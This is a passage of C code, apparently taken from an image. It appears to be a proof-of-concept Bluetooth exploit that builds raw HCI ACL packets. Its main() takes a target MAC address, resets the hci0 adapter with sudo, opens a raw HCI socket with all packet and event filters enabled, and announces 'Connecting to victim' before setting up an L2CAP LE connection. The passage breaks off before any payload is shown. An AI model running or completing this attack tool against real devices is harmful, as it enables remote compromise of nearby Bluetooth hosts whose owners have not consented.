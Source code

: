 ```c
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

#define L2CAP_CID_LE_SIGNALING  0x0005
#define L2CAP_LE_CONN_REQ       0x14
#define L2CAP_CID_SMP           0x0006
#define L2CAP_CID_SMP_BREDR     0x0007

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

  bdaddr_t dst_addr;
  str2ba(argv[1], &dst_addr);

  printf("[*] Resetting hci0 device...\n");
  system("sudo hciconfig hci0 down");
  system("sudo hciconfig hci0 up");

  printf("[*] Opening hci device...\n");
  struct hci_dev_info di;
  int hci_device_id = hci_get_route(NULL);
  int hci_socket = hci_open_dev(hci_device_id);
  if (hci_devinfo(hci_device_id, &di) < 0) {
    perror("hci_devinfo");
    return 1;
  }

  struct hci_filter flt;
  hci_filter_clear(&flt);
  hci_filter_all_ptypes(&flt);
  hci_filter_all_events(&flt);
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  int opt = 1;
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0};
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr_type = BDADDR_LE_PUBLIC;
  laddr.l2_bdaddr = di.bdaddr;
```